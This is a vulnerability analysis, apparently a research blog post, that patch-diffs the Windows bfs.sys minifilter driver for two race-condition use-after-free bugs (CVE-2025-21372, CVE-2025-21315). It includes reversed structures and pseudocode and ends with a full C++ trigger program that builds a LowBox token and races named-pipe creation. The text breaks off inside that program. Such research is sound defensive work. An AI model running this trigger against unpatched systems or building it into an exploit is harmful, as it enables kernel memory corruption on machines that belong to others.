








The Microsoft Windows Brokering File System (bfs.sys) driver if a file system Minifilter which brokers (manages) access to the broader file system for AppContainer and Universal Windows Platform applications. By intercepting various I/O calls such as file creation, pipe creation, registry creation, the driver can act as a trusted mediator (broker) between the restricted application and the overall file system.
KB5050009 and KB5049984 are two security updates released by Microsoft on the 14th of January 2025. The updates address different operating systems with KB5050009 addressing Windows 11 / Windows Server 2025 systems where as KB5049984 addresses Windows Server 2022, 23H2 Edition. These updates address two distinct Use After Free (UAF) vulnerabilities triggerable through race conditions.
PipeMappingTable ObjectPolicyTable object in
various code pathsFor ease of setup and use, Windows 11 Version 24H2 was utilized to be the target of the patch diffing process. The Windows Binary Index (Winbindex) was utilized to download the vulnerable and patched versions of the bfs.sys driver.
Pre Patch: 10.0.26100.2454 Post Patch: 10.0.26100.2894
The drivers were then renamed to before.sys and after.sys for the binary versions before and after the patch respectively. The drivers were then loaded into IDA Pro and symbols were then retrieved from the Microsoft Symbol Store for the versions. Next BinDiff was utilized to perform binary diffing using the IDA Plugins.
BinDiff Call Graph Analysis of the Drivers
In addition to the Call Graph changes, the new driver version
(after.sys) introduces five new functions as shown
below:
 Newly Introduced Functions After Patch
Review of the matched functions reveals that a total of 15 functions have been modified post patch as shown in the list and image below:
 Matched and Modified Functions
The Feature_752421176__private_IsEnabledDeviceUsageNoInline which will be renamed CVE_2025_21372_Patch calls the internal function Feature_752421176__private_IsEnabledFallback which will be renamed CVE_2025_21372_Patch_Fallback. References to CVE_2025_21372_Patch only exist in the BfsReleaseNamedPipeMapping function. Review of the patched under BinDiff shows addition of the CVE_2025_21372_Patch call twice. In the beginning of the function and in the tail end. The patch appears to be dictating when the PipeMappingTable lock is being placed and released.
 Pre and Post Patch Graph of BfsReleaseNamedPipeMapping
The PipeMappingTable object is referenced in BfsInitializePipeMappingTable along with other functions. The BfsInitializePipeMappingTable logic was reverse engineered to understand the type definition of the PipeMappingTable. This resulted in the following structure:
struct PipeMappingTable
{
__int64 PipePushLock;
PRTL_DYNAMIC_HASH_TABLE PipeMappingHashTable;
};PipeMappingTable Typedef
Additionally BfsInsertNamedPipeMapping was reverse engineered along with other operations to get a sample type definition of a PipeEntry structure. This resulted in the following structure:
struct PipeEntry
{
RTL_DYNAMIC_HASH_TABLE_ENTRY HashTableEntry;
DWORD RefCt;
DWORD UnkDword;
__int64 ProbUserSid;
__int64 ProbAppContainerSid;
UNICODE_STRING ProbFilePath;
UNICODE_STRING UnkString;
};PipeEntry Typedef
Finally, the BfsReleaseNamedPipeMapping function was reviewed again to understand the error in depth. The bug behind CVE-2025-21372 stems from decrementing a PipeEntry object reference count prior to acquiring a lock on the PipeMappingTable object as observed in the pseudocode below:
void __fastcall BfsReleaseNamedPipeMapping(PipeMappingTable *PipeMappingTable, PipeEntry *PipeEntry)
{
if ( (unsigned int)CVE_2025_21372_Patch() )
{
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx(PipeMappingTable, 0LL);
}
if ( _InterlockedExchangeAdd((volatile signed __int32 *)&PipeEntry->RefCt, 0xFFFFFFFF) == 1 )
{
if ( !(unsigned int)CVE_2025_21372_Patch() )
{
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx(PipeMappingTable, 0LL);
}
if ( !PipeEntry->RefCt )
{
if ( (PipeEntry->UnkDword & 1) != 0 )
BfsRemoveEntryHashTable(PipeMappingTable->PipeMappingHashTable, &PipeEntry->HashTableEntry);
ExFreePoolWithTag((PVOID)PipeEntry->ProbUserSid, 0);
ExFreePoolWithTag((PVOID)PipeEntry->ProbAppContainerSid, 0);
RtlFreeUnicodeString(&PipeEntry->ProbFilePath);
RtlFreeUnicodeString(&PipeEntry->UnkString);
ExFreePoolWithTag(PipeEntry, 0);
}
if ( !(unsigned int)CVE_2025_21372_Patch() )
{
ExReleasePushLockExclusiveEx(PipeMappingTable, 0LL);
KeLeaveCriticalRegion();
}
}
if ( (unsigned int)CVE_2025_21372_Patch() )
{
ExReleasePushLockExclusiveEx(PipeMappingTable, 0LL);
KeLeaveCriticalRegion();
}
}BfsReleaseNamedPipeMapping Pseudocode
The data race can occur when two simultaneous threads have an open handle to a named pipe (reference count of 2). Thread A, will initially lock the reference count and decrement it then release the lock, and acquire a PipeMappingTable lock. Thread B will then decrement the reference count and wait for the PipeMappingTable lock release. Thread A will then free the PipeEntry object and unlock the table. Thread B will then lock the table and a Use-After-Free will occur when it performs the reference count check if ( !PipeEntry->RefCt ). The UAF logic can be seen in the diagram below:
 CVE-2025-21372 Use-After-Free Logic
Feature_2880249144__private_IsEnabledDeviceUsageNoInline which will be renamed CVE_2025_21315_Patch calls the internal function Feature_2880249144__private_IsEnabledFallback which will be renamed CVE_2025_21315_Patch_Fallback. Twenty references exist to CVE_2025_21315_Patch in the driver. All references follow a particular pattern of checking if CVE_2025_21315_Patch returns true the new BfsDereferencePolicyEntryEx will get called otherwise the old BfsDereferencePolicyEntry will get called.
if ( (unsigned int)CVE_2025_21315_Patch() )
BfsDereferencePolicyEntryEx(PolicyEntry, 0);
else
BfsDereferencePolicyEntry((char *)PolicyEntry);BfsProcessQueryPolicyRequest:149-152
Review of some of the matched patch functions (Excluding BfsReleaseNamedPipeMapping) using BinDiff show the same behavior as shown below:

BfsCheckAndApplyPolicy Diff

BfsProcessSetPolicyRequest Diff

BfsPostCreateOperation Diff
Two key differences exist between BfsDereferencePolicyEntry and the new BfsDereferencePolicyEntryEx function. First BfsDereferencePolicyEntryEx accepts a new BOOL parameter (which will be named TableLocked) as a second argument following PolicyEntry where as the initial function does not. Review of the function code also shows new code was added to lock the PolicyTable prior to operations on the
PolicyEntry object.
if ( !TableLocked )
{
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx(&gBfsPolicyTable, 0LL);
}BfsDereferencePolicyEntryEx: 13-17
BfsInitializePolicyTable and BfsInsertPolicyEntry were along with their cross-references were then reverse engineered to identify the PolicyTable and PolicyEntry structures types.
struct PolicyTable
{
__int64 PolicyTablePushLock;
PRTL_DYNAMIC_HASH_TABLE HashTable;
LIST_ENTRY Entries;
PEX_TIMER PolicyTimer;
};PolicyTable Structure
struct PolicyEntry
{
RTL_DYNAMIC_HASH_TABLE_ENTRY HashEntry;
__int64 TokenUserSid;
__int64 AppContainerSid;
__int64 Object;
__int64 StorObject;
__int32 unkFlag;
__int32 unkDWORD0;
LIST_ENTRY UnkListEntry;
__int64 unkPTR0;
__int64 unkPTR1;
__int64 LastAccessTime;
__int32 unkDWORD1;
__int32 unkDWORD2;
UNICODE_STRING RegString1;
UNICODE_STRING RegString2;
DWORD ReferenceCount;
__int32 unkDWORD3;
};PolicyEntry Structure
To trigger CVE-2025-21372 the vulnerable BfsReleaseNamedPipeMapping function was cross-referenced and was observed to be used in the following functions:
In addition to BfsReleaseNamedPipeMapping, BfsInsertNamedPipeMapping was cross referenced and was only used in BfsPostCreatePipeOperation. Named pipe mappings are only inserted into the PipeMappingTable after a successful status is verified in the BfsPostCreatePipeOperation filter callback.
Successful named PipeEntry creation if dependent heavily on 2 important factors:
BfsPreCreatePipeOperation is responsible for intercepting named pipe creation operations prior to forwarding to the operation to the File System Driver. The pseudocode for the function can be seen below:
__int64 __fastcall BfsPreCreatePipeOperation(... params ...)
{
// Start rundown protection / acquiring token info
// ... snip ...
// #1 TokenIsAppSilo (0x30) Check Against Token
if ( BfsIsApplicableToken(Token) )
{
// FLT_FILE_NAME_QUERY_DEFAULT | FLT_FILE_NAME_NORMALIZED
status = FltGetFileNameInformation(CallbackData, 0x101u, &FileNameInformation);
// ... snip ...
FileName = *BfsGetFileName(&Str, FileNameInformation);
// #2 Confirms FileName Doesnt start with "Sessions\" and "LOCAL\" (case sensitive)
if ( BfsIsPrefixRequired(&FileName) )
{
GetEcpStatus = SeQueryInformationToken(Token, TokenUser, &TokenUserSid);
if ( GetEcpStatus >= 0 )
{
GetEcpStatus = SeQueryInformationToken(Token, TokenAppContainerSid, &AppContainerSid);
if ( GetEcpStatus >= 0 )
{
// FILE_OPEN
if ( (CallbackData->Iopb->Parameters.Create.Options & 0xFF000000) == 0x1000000 )
{
// ... snip ...
}
// #3 Cleaning up path and patch callback (to include "\Local\")
v6 = ((BfsRedirectNamedPipe(
FltRelatedObj->Filter,
CallbackData,
*TokenUserSid,
*AppContainerSid,
FileNameInformation,
&FileName) >> 31) & 0xFFFFFFFD)
+ 4;
goto LABEL_6;
}
// ... snip ...
}
else
{
// #4 Setting completion context from extra parameters
GetEcpStatus = FltGetEcpListFromCallbackData(FltRelatedObj->Filter, CallbackData, &EcpList);
if ( GetEcpStatus >= 0 )
{
if ( !EcpList )
goto LABEL_6;
Filter = FltRelatedObj->Filter;
// get / check extra parameter info
// ... snip ...
v6 = 0;
*CompletionContext = *(EcpContext + 1);
}
goto LABEL_6;
}
// ... snip ...
}
if ( LoggingLevel <= 3 )
goto LABEL_6;
}
v24 = GetEcpStatus;
v38 = 4LL;
v37 = &v24;
EtwWriteTransfer(v17, &unk_1C0013C91, v18, v19, v23, &v36);
}
LABEL_6:
// cleanup memory
return v6;
}BfsPreCreatePipeOperation Pseudocode
BfsPreCreatePipeOperation first obtains a pointer to the thread’s ACCESS_TOKEN and calls BfsIsApplicableToken (#1) to validate the token is part of an AppSilo using SeQueryInformationToken. The pseudocode for BfsIsApplicableToken can be seen below:
bool __fastcall BfsIsApplicableToken(PACCESS_TOKEN Token)
{
... snip ...
dwTokenIsAppSilo = 0;
// 0x30 TokenIsAppSilo
status = SeQueryInformationToken(Token, 0x30u, &dwTokenIsAppSilo);
if ( status >= 0 )
return dwTokenIsAppSilo != 0;
if ( LoggingLevel > 3 )
{
... snip ...
}
return 0;
}BfsIsApplicableToken Pseudocode
BfsPreCreatePipeOperation then requests the file information from the callback using FltGetFileNameInformation. The volume information is then stripped from the file using BfsGetFileName and calls BfsIsPrefixRequired (#2) to check if the file name does not begins with Sessions\ or LOCAL\. If the check fails (the file path starts with the prefix), the callback Extra Create Parameter (ECP) list is parsed and a completion context is set and the function returns (#4). Otherwise the function will call BfsRedirectNamedPipe and then return. BfsRedirectNamedPipe is responsible:
\LOCAL\ between the pipe name and
the volume pathECP list (utilizing, FileName,
UserSID, AppContainerSid)The BfsPostCreatePipeOperation operation is responsible for inserting a PipeEntry object in the pipe table and creating a stream handle context, the pseudo code for BfsPostCreatePipeOperation can be seen below:
__int64 __fastcall BfsPostCreatePipeOperation( ...params ... )
{
// ... snip ...
// stack setup
status = cbData->IoStatus.Status;
LOBYTE(InsertedNewEntry) = 0;
// #1 Checks if named pipe was created
if ( status >= 0 )
{
// #2 Checks Completion Context
if ( !CompletionContext ) return 0LL;
v4 = 1;
// #3 Inset Named Pipe in Table
statusbak = BfsInsertNamedPipeMapping(
&gBfsPipeMappingTable,
*CompletionContext,
*(CompletionContext + 8),
(CompletionContext + 16),
(CompletionContext + 32),
&InsertedNewEntry,
&PipeEntry);
status = statusbak;
if ( statusbak >= 0 )
{
// #4 Allocate / Set Stream Handle Context
statusbak = FltAllocateContext(RelatedObject->Filter, 0x10u, 0x10uLL, PagedPool, &NewContext);
status = statusbak;
if ( statusbak >= 0 )
{
PipeEntryBak = PipeEntry;
NewContext->field_0 = 1;
NewContext->PipeEntry = PipeEntryBak;
statusbak = FltSetStreamHandleContext(
RelatedObject->Instance,
RelatedObject->FileObject,
FLT_SET_CONTEXT_REPLACE_IF_EXISTS,
NewContext,
&OldContext);
// ... snip ...
}
}
// ... snip ...
}
// ... snip ...
LABEL_13:
// #5 Clean up Completion Context
if ( CompletionContext )
{
if ( !InsertedNewEntry )
{
// ... snip ...
// free context info
}
ExFreePoolWithTag(CompletionContext, 0);
}
// #6 Dereference / Cleanup Pipe Entry
if ( status < 0 )
{
if ( PipeEntry )
BfsReleaseNamedPipeMapping(&gBfsPipeMappingTable, PipeEntry);
if ( v4 )
{
cbData->IoStatus.Status = status;
FltSetCallbackDataDirty(cbData);
FltCancelFileOpen(RelatedObject->Instance, RelatedObject->FileObject);
}
}
return 0LL;
}BfsPostCreatePipeOperation
Pseudocode
BfsPostCreatePipeOperation first confirms that the named pipe creation succeeded (#1) and that a CompletionContext was set (#2). If either fails the function will exit. The function then calls BfsInsertNamedPipeMapping (#3). BfsInsertNamedPipeMapping is responsible for the following:
UserSid, AppContainerSid
and FilePathPseudocode for BfsInsertNamedPipeMapping can be seen below:
__int64 __fastcall BfsInsertNamedPipeMapping( ... params ...)
{
// Stack setup
// ... snip ...
BfsUpdateHash(ProbablyUserSid, 4 * ProbablyUserSid[1] + 8, &v24);
BfsUpdateHash(PropbablyAppContainerSid, 4 * PropbablyAppContainerSid[1] + 8, &v24);
BfsUpdateUnicodeStringHash(ProbFilePath, &v24);
FinalHash = BfsFinalHash(&v24);
v25 = FinalHash;
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx(PipeMappingTable, 0LL);
// Lookup Pipe Entry Hash
PipeEntryInitial = BfsLookupPipeMappingEntryHashTable(
PipeMappingTable->PipeMappingHashTable,
FinalHash,
ProbablyUserSid,
PropbablyAppContainerSid,
ProbFilePath);
v13 = &PipeEntryInitial->HashTableEntry;
// If Entry Exists
if ( PipeEntryInitial )
{
// increment ref count
// release lock
// return
}
Pool2 = ExAllocatePool2(256LL, 0x50LL, 1299408450LL);
PipeEntryNew = Pool2;
if ( Pool2 )
{
// set pipe entry info
memset(Pool2, 0, sizeof(PipeEntry));
inserted = BfsInsertEntryHashTable(PipeMappingTable->PipeMappingHashTable, v21, &PipeEntryNew->HashTableEntry);
v20 = inserted;
if ( inserted >= 0 )
{
PipeEntryNew->UnkDword = 1;
*a7 = &PipeEntryNew->HashTableEntry;
*InsertedMaybe = 1;
goto LABEL_11;
}
// ... snip ...
}
// ... snip ...
LABEL_11:
// ... snip ... cleanup
}BfsInsertNamedPipeMapping Pseudocode
BfsPostCreatePipeOperation then creates and sets the stream handle context for the named pipe (#4) before cleaning up and returning (#5).
Finally BfsNamedPipeStreamHandleCleanup, the function called when a named pipe steam is closed has very simple logic. It checks the context type, to confirm it is FLT_STREAMHANDLE_CONTEXT and it verifies an unknown DWORD is set to 1:
void __fastcall BfsNamedPipeStreamHandleCleanup(StreamHandleCTX *StreamCtx, FLT_CONTEXT_TYPE CtxType)
{
// Check Context Type (FLT_STREAMHANDLE_CONTEXT) and Unk Value
if ( CtxType == 0x10 && StreamCtx->unkDWORD0 == 1 )
BfsReleaseNamedPipeMapping(&gBfsPipeMappingTable, StreamCtx->PipeEntry);
}Finally for a pipe mapping to be created the following criteria needs to be met the calling process must be in an AppSilo and the pipe creation operation must succeed. For a pipe mapping to be released, the BfsNamedPipeStreamHandleCleanup needs to be called when a handle is gets closed. The Use After Free (UAF) can be triggered using 2 threads performing the same logic:
isAppSilo set
to 1\\.\pipe\myPipe)To create the correct token that passed the isAppSilo check, Job Explorer v0.9 by Pavel Yosifovich was utilized to inspect all current job objects. The Microsoft widgets application (widgets.exe) was confirmed to be using an App Silo with the container name being MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy.
 Job Explorer Output Showing Widgets Container
A function GenerateLowBoxToken was then developed which does the following:
AppContainerSid for Widgets
container using
DeriveAppContainerSidFromAppContainerNameprivateNetworkClientServer capability
(S-1-15-3-65536)NtCreateLowBoxToken to generate a
LowBoxToken based on the current process token with
privateNetworkClientServer capabilityAn additional function named Trigger was developed does the following:
HANDLE and use
ImpersonateLoggedOnUser to impersonate the token\\.\pipe\myPipeThe main function is responsible for: 1. Calling GenerateLowBoxToken to generate a LowBox token (hToken) 2. Creating 2 threads of the Trigger function and passing the token (hToken) as a parameter
The full trigger code can be seen below:
/// <summary>
///
/// CVE-2025-21372:
/// BfsReleaseNamedPipeMapping incorrect locking logic
///
/// </summary>
#include <Windows.h>
#include <userenv.h>
#include <sddl.h>
#include <iostream>
#include <winternl.h>
#pragma comment(lib, "userenv.lib")
typedef NTSTATUS(NTAPI* PNtCreateLowBoxToken)(
PHANDLE TokenHandle,
HANDLE ExistingTokenHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PSID PackageSid,
ULONG CapabilityCount,
PSID_AND_ATTRIBUTES Capabilities,
ULONG HandleCount,
HANDLE* Handles
);
HANDLE GenerateLowBoxToken() {
HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
if (!hNtdll) {
printf("Failed to get ntdll.dll handle\n");
return INVALID_HANDLE_VALUE;
}
PNtCreateLowBoxToken pNtCreateLowBoxToken = (PNtCreateLowBoxToken) GetProcAddress(hNtdll, "NtCreateLowBoxToken");
// 1. Resolve App Container Sid for Widgets Container
const wchar_t* containerName = L"MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy";
PSID appContainerSid = nullptr;
HRESULT hr = DeriveAppContainerSidFromAppContainerName(containerName, &appContainerSid);
if (FAILED(hr)) {
printf("DeriveAppContainerSid failed. HR(%x)\n", hr);
return INVALID_HANDLE_VALUE;
}
// 2. Create a privateNetworkClientServer capability (`S-1-15-3-65536`)
const DWORD capCt = 1;
SID_AND_ATTRIBUTES caps[capCt] = {};
PSID capSid = nullptr;
if (!ConvertStringSidToSidW(L"S-1-15-3-65536", &capSid)) {
printf("ConvertStringSidToSid failed.\n");
return INVALID_HANDLE_VALUE;
}
caps[0].Sid = capSid;
caps[0].Attributes = SE_GROUP_ENABLED;
// 3. Capture the current process token
HANDLE existingToken = nullptr;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &existingToken)) {
printf("OpenProcessToken failed.\n");
return INVALID_HANDLE_VALUE;
}
OBJECT_ATTRIBUTES oa = {};
InitializeObjectAttributes(&oa, nullptr, 0, nullptr, nullptr);
// 4. Use `NtCreateLowBoxToken` to generate a `LowBoxToken` based on the current process token with `privateNetworkClientServer` capability
HANDLE lowboxToken = nullptr;
NTSTATUS status = pNtCreateLowBoxToken(
&lowboxToken,
existingToken,
TOKEN_ALL_ACCESS,
&oa,
appContainerSid,
capCt,
caps,
0,
nullptr
);
if (status != 0) {
printf("NtCreateLowBoxToken failed: 0x%X\n", status);
return INVALID_HANDLE_VALUE;
}
// 5. Return Token
printf("Successfully Created Lowbox Token\n");
return lowboxToken;
}
VOID Trigger(LPVOID lpParam) {
// 1. Cast input input as Token and Impersonate
HANDLE hToken = (HANDLE)lpParam;
if (!ImpersonateLoggedOnUser(hToken)) {
printf("Could not impersonate in thread :( ");
return;
}
// 2. Enter infinite loop
while (1) {
// 3. Open a handle to nameed pipe
HANDLE hPipe = CreateNamedPipeW(
L"\\\\.\\pipe\\myPipe",
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_BYTE | PIPE_READMODE_BYTE | PIPE_WAIT,
100, 4096, 4096, 0,
NULL
);
// 4. Close handle to pipe if successful
if (hPipe != INVALID_HANDLE_VALUE)
CloseHandle(hPipe);
else
break;
}
printf("Broke Got an INVALID_HANDLE_VALUE");
}
int main() {
// 1. Generate low box token
HANDLE hToken = GenerateLowBoxToken();
if (hToken != INVALID_HANDLE_VALUE) {
printf("[+] Successfully created LowBox Token");
// 2. Create 2 threads of the Trigger function
HANDLE hThread1 = CreateThread(nullptr,0,
(LPTHREAD_START_ROUTINE)Trigger,
hToken,
0, nullptr);
